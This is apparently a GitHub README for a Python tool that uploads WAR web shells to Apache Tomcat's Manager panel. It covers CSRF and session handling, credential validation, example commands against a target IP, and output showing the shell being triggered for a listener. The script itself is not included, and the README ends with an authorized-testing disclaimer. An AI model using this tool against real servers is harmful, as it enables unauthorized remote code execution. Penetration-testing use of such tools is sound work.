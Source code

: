 # ☢️ Tomcat WAR File Uploader

A Python tool to upload `.war` web shells to Apache Tomcat via the Manager interface (`/manager/html`). Automatically handles CSRF protection and session cookies.

## 🔧 Features

- Uploads WAR files to a Tomcat server
- Automatically extracts `JSESSIONID` and `CSRF_NONCE`
- Validates credentials before upload
- Triggers the uploaded shell if deployment succeeds

---

## 📦 Requirements

- Python 3.x
- `requests`
- `beautifulsoup4`

Install dependencies:

```bash
pip install -r requirements.txt
```

Or manually:

```bash
pip install requests beautifulsoup4
```

---

## 🚀 Usage

```bash
python3 tomcat_war_uploader.py --url http://<target>:8080 --username <user> --password <pass> --war-file shell.war
```

### Arguments

| Argument                  | Description                                                            |
|---------------------------|------------------------------------------------------------------------|
| `--url`                   | **(Required)** Base URL of the Tomcat server (e.g., `http://10.10.10.10:8080`) |
| `--username`              | **(Required)** Tomcat Manager username                                |
| `--password`              | **(Required)** Tomcat Manager password                                |
| `--war-file`              | WAR file to upload (default: `plugin.war`)                            |
| `--manager-panel`         | Manager panel path (default: `/manager/html`)                         |
| `--validate-credentials`  | Only validate credentials and exit (no upload)                        |

---

## 🧪 Examples

### Upload a WAR file

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --war-file shell.war
```

### Validate credentials only

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --validate-credentials
```

---

## ✅ Output

```text
[+] Parsed CSRF token: A1B2C3D4E5F6...
[+] War file uploaded successfully
[+] Shell triggered. Check your listener
```

---

## ⚠️ Disclaimer

This script is intended for **educational and authorized security testing purposes only**. Do **not** use it against systems without explicit permission.
